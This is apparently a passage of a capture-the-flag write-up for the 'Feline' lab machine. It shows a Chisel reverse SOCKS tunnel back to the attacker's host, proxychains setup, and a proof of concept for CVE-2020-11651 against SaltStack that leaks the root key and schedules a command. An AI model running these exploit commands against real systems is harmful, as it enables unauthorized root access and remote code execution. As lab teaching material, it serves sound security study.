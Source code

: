 ```

tomcat@VirusBucket:/var/tmp$ ./chisel_1.6.0_linux_amd64 client 10.10.14.15:8000 R:socks
2020/09/01 17:03:56 client: Connecting to ws://10.10.14.15:8000
2020/09/01 17:03:56 client: Fingerprint be:f7:9d:b2:7f:8c:a4:60:51:43:9a:c3:3e:b1:34:fa
2020/09/01 17:03:56 client: Connected (Latency 11.653786ms)

```

The server shows this connection:

```

2020/09/01 09:20:02 server: proxy#1:R:127.0.0.1:1080=>socks: Listening

```

#### Test Vulnerable

Running the script with no arguments does a check on localhost to see if it’s vulnerable. I’ll use `proxychains` to tunnel through the Chisel socks proxy. The proxies in `/etc/proxychains.conf` tell it to use 127.0.0.1:1080 as a socks5 proxy:

```

[ProxyList]
socks5  127.0.0.1 1080

```

Now I’ll run the exploit with `proxychains`:

```

root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py
ProxyChains-3.1 (http://proxychains.sf.net)
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=

```

Feline is vulnerable.

#### Ping

Next I tried to get it to ping me by running:

```

root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py --exec 'ping -c 1 10.10.14.15'
ProxyChains-3.1 (http://proxychains.sf.net)
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=
[+] Attempting to execute ping -c 1 10.10.14.15 on 127.0.0.1
[+] Successfully scheduled job: 20200901193401749722

```
